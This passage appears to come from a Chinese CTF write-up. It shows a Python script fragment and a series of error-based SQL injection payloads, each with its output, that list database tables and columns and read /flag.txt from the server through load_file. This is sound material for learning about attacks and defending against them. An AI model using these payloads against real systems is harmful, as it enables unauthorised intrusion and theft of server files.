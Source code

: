 ```python
    requests.post("http://{}/delete.php".format(url), data=paramsPost)

app.run(port=80, debug=True)
```

```sql
address=1' where user_id=0^extractvalue(1,concat(0x5c,(select(group_concat(table_name))from(information_schema.tables)where(table_schema='ctftraining'))))#
```

```
errorXPATH syntax error: '\FLAG_TABLE,news,users'
```

```sql
address=1' where user_id=0^extractvalue(1,concat(0x5c,(select(group_concat(column_name))from(information_schema.columns)where(table_name='FLAG_TABLE'))))#
```

```
errorXPATH syntax error: '\FLAG_COLUMN'
```

~~然后折腾半天发现原来`flag`在`/flag.txt`~~

```sql
address=1' where user_id=0^extractvalue(1,concat(0x5c,(select(load_file('/flag.txt')))))#
```

```
errorXPATH syntax error: '\flag{5a415f51-29a4-47e2-bd8e-18'
```

```sql
address=1' where user_id=0^extractvalue(1,concat(0x5c,(select(substr(load_file('/flag.txt'),32)))))#
```

```
errorXPATH syntax error: '\0d3ac4c6e3}
'
```

#Web #PHP #源码泄漏 #SQL注入 #报错注入 #二次注入 #代理 #伪协议 
